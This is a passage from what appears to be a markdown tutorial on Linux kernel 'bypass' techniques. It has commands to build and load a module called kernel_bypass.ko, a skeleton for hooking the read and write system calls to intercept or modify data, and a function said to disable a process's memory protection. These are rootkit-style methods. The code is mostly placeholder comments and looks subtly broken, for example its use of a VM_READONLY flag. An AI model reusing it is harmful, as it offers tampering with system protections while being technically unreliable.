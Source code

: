 #### **Implementation:**
```bash
# Compile kernel module
make -C /lib/modules/$(uname -r)/build M=$PWD modules

# Load module
sudo insmod kernel_bypass.ko

# Check if loaded
lsmod | grep bypass
```

### **2. System Call Hooking**

#### **Technique:**
```c
// syscall_hook.c
#include <linux/kallsyms.h>

// Original syscall pointers
asmlinkage long (*original_read)(const struct pt_regs *);
asmlinkage long (*original_write)(const struct pt_regs *);

// Hooked syscalls
asmlinkage long hooked_read(const struct pt_regs *regs) {
    // Intercept read operations
    // Check if target process
    // Modify data if needed
    return original_read(regs);
}

asmlinkage long hooked_write(const struct pt_regs *regs) {
    // Intercept write operations
    // Log or modify data
    return original_write(regs);
}
```

### **3. Memory Protection Bypass**

#### **Technique:**
```c
// memory_bypass.c
#include <linux/mm.h>
#include <linux/sched.h>

void bypass_memory_protection(pid_t pid) {
    struct task_struct *task = find_task_by_vpid(pid);
    struct mm_struct *mm = task->mm;
    
    // Disable memory protection
    mm->def_flags &= ~VM_READONLY;
    
    // Allow direct memory access
    down_write(&mm->mmap_sem);
    // Modify memory mappings
    up_write(&mm->mmap_sem);
}
```

---
